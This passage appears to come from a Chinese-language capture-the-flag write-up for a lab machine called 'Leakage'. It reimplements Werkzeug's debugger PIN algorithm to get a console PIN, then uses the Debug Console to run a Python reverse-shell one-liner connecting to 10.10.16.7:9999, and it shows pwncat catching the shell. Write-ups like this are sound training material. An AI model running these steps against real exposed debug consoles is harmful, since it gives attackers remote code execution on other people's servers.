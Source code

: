 ```python
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")
# h.update(b'shittysalt')

cookie_name = "__wzd" + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(num[x : x + group_size].rjust(group_size, "0") for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
# 144-177-687
```

使用 `144-177-687` 访问 Debug Console

![img](img/image_20240322-002205.png)

使用 Debug Console 反弹 shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

成功收到回连的 shell

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $ pwncat-cs -lp 9999
[00:24:58] Welcome to pwncat 🐈!
[00:25:16] received connection from 10.13.37.11:37272
[00:25:25] 10.13.37.11:37272: registered new host w/ db
(local) pwncat$ back
(remote) aas@Leakage:/home/aas$ whoami
aas
```
